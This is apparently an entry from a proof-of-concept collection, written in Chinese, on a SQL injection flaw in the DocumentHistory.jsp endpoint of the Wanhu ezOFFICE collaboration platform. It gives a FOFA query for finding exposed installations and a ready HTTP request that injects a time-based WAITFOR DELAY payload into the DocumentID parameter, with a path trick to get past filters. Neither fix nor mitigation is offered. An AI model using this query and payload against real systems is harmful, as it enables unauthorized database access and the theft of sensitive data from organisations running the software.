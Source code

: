 ## 万户 ezOFFICE DocumentHistory.jsp SQL注入

DocumentHistory.jsp接口处存在sql注入漏洞，攻击者可获取数据库中敏感信息

## fofa
```
app="ezOFFICE协同管理平台"
```

## poc
```
GET /defaultroot/public/iSignatureHTML.jsp/DocumentHistory.jsp;.js?DocumentID=1%27%20WAITFOR%20DELAY%20%270:0:8%27-- HTTP/1.1
```

